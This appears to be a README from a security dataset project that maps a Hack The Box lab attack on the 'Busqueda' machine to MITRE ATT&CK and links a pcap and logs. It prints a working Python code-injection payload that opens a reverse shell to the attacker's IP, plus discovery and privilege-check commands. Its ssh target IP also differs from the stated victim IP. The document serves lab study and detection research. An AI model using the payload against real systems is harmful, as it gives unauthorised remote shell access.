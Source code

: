 # Cyber4ML_Framework application in "Busqueda" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Enterprise|ICS|Network Analysis|Log Analysis|
|-|-|-|-|-|-|
|Yes|Yes|Yes|No|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.54|10.10.11.208|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [Busqueda Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/Busqueda/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Reconnaissance | Gather Victim Host Information | Software | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | -/CWE-94 |
| Execution | Exploitation for Client Execution | - | (1) | -/CWE-94 |
| Discovery | System Owner/User Discovery | - | (2) | - |
| Discovery | File and Directory Discovery | - | (3) | - |
| Credential Access | Credentials from Password Stores | Password Managers | - | - |
| Persistence | Valid Accounts | Local Accounts | (4) | - |
| Discovery | Permission Groups Discovery | Local Groups | (5) | - |
| Privilege Escalation | Exploitation for Privilege Escalation | - | - | - |

#### Commands/Scripts
- (1)
```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.54',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

- (2)
```
whoami
```

- (3)
```
find /var/www/ -type f -iname "*config*" 2>/dev/null
```

- (4)
```
ssh player@10.10.11.194
```

- (5)
```
sudo -l
```

## Network Data

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/Busqueda/attack_capture.pcapng)

## Malicious Log Data

```
HTTP/1.1 200 OK
Date: Thu, 11 May 2023 12:07:38 GMT
Server: Werkzeug/2.1.2 Python/3.10.6
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
```
